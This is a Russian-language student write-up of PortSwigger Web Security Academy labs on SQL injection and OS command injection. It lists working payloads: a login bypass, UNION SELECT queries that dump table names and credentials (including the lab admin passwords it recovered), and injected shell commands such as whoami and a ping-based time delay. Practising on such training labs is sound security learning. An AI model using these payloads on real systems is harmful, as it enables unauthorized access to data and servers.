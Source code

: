 # SQLi
## Теория
Есть лекция, семинар, https://portswigger.net/web-security/sql-injection/cheat-sheet
## Apprentice
### [SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)
Из описания увидели запрос
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

Увидели, что в url прокидывается категория, так что простой `category=a' OR released=0--`показывает нам все скрытые элементы (потому что запрос превращается в `SELECT * FROM products WHERE category = 'a' OR released=0--`)

### [SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)
Максимально просто прокидываем в форму логин `administrator'--`

## Practitioner
### [SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)
Для начала отправляем запрос в repeater в бурпе.

Ищем куда можно прокидывать вход - находим в url category = X, предполагаем, что это перекинется в запрос вроде `SELECT ... FROM X`. Получается, здесь мы можем выбирать таблицу, но не можем менять, что из нее выбирается, так что получить нужную инфу напрямую не выйдет.

Попробуем написать что-то вроде `SELECT ... FROM X UNION SELECT ... FROM Y`. Y явно будет v$version, поскольку мы хотим получить версию Oracle, в реальности бы пришлось ещё поперебирать. Тогда во второе ... мы хотим закинуть banner, но чисто его мы прокинуть не можем, потому что кол-во столбцов должно совпадать с кол-вом столбцов в изначальной части запроса.

Посмотрим, сколько там столбцов, перебирая количество NULL (пока сервер не перестанет возвращать 200): `' UNION SELECT NULL,NULL FROM dual--`, dual - как раз таблица в Oracle, из которой можно доставать нужные столбцы. 

Подобрали кол-во null-ов, начинаем заменять их строками (можно просто 'a'). Нашли, что в первую и вторую можно прокинуть строку, так что заменяем всё на нужный финальный запрос: `' UNION SELECT banner,'ABC' FROM v$version--`

### [SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)
По сравнению с предыдущей лабой изменился сервер. В отличие от oracle, после select не обязательно писать from, так что можно просто писать `' UNION SELECT NULL,NULL--`. Это возвращало ошибку, потому что в mysql после -- обязательно идет пробел, так что писать надо `--+` из-за url encoding.

Финальный запрос выглядит так: `category=Gifts' UNION SELECT @@version,'abc'--+`

### [SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
Нащупали две текстовые колонки

Через сначала @@version -> 500 и затем version() -> 200 поняли, что работаем с постгресом.

Теперь надо понять название таблицы с пользователями. Командой `category=Pets' UNION SELECT table_name, 'abc' from information_schema.tables--` и затем поиском по результату находим таблицу `users_brsokc`. Название таблицы information_schema.tables узнали из [cheetsheet-a](https://portswigger.net/web-security/sql-injection/cheat-sheet).

Теперь надо найти имена колонок с логином и паролем. Командой `category=Pets' UNION SELECT column_name, 'abc' from information_schema.columns where table_name='users_brsokc'--` находим `username_mgmxdo` и `password_axygtx`.

Собираем это в один конструктор: 
`category=Pets' UNION SELECT username_mgmxdo, password_axygtx from users_brsokc--`

Реально сработало! Получаем логин `administrator` и пароль `9g9luol1ek9og46n91yl`. 

### [SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)
Судя по описанию, клон предыдущей лабы, но на оракле. Погнали.

| Команда                                                                              | Что получили                         |
| ------------------------------------------------------------------------------------ | ------------------------------------ |
| UNION SELECT table_name,NULL FROM all_tables--                                       | USERS_BNCBVU                         |
| UNION SELECT column_name,NULL FROM all_tab_columns where table_name='USERS_BNCBVU'-- | USERNAME_ITNCAU : PASSWORD_ERTPVT    |
| UNION SELECT USERNAME_ITNCAU,PASSWORD_ERTPVT FROM USERS_BNCBVU--                     | administrator : 7m65kih2xnhq8wooas4f |
Это было очень весело, мне нравится.

### [SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)
Че-то я не в том порядке пошел, я этим активно пользовался до этого. Ну ладно, простым `category=Pets' UNION SELECT NULL,NULL,NULL-- `

### [SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)
`UNION SELECT NULL,'dVbRpo',NULL--`

### [SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)
`UNION SELECT password,'tag' from users where username='administrator'--`

### [SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)
Вообще, это можно было сделать без склеивания, командой `UNION SELECT NULL,password from users WHERE username='administrator'--`. Но, во-первых, не так удобно искать пароль среди кучи строк вывода, и плюс мы так сливаем не всю БД, а только пароль админа.

Так что используем следующую команду: `UNION SELECT NULL,username||':'||password from users--`. Не забываем разделитель, здесь для красоты и следования стандарту, это `:`.


# OS Command Injection
## Apprentice
### [OS command injection, simple case](https://portswigger.net/web-security/os-command-injection/lab-simple)
Просто пытаемся запайпить команду к существующим аргументам: `productId=1|whoami&storeId=1`
## Practitioner
### [Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)
В [гайде](https://portswigger.net/web-security/os-command-injection) видим, что delay можно вызвать командой ``& ping -c 10 127.0.0.1 &``

Смотрим на запрос сабмита фидбека: `csrf=8a0UOlubEw9VYtIBnJYofpSaqTA5ZybP&name=a&email=a%40a&subject=a&message=a`. Попробуем попайпить нашу команду в разные аргументы, пока не сработает. Получаем `csrf=8a0UOlubEw9VYtIBnJYofpSaqTA5ZybP&name=a&email=a%40a||ping -c 10 127.0.0.1||&subject=a&message=a`.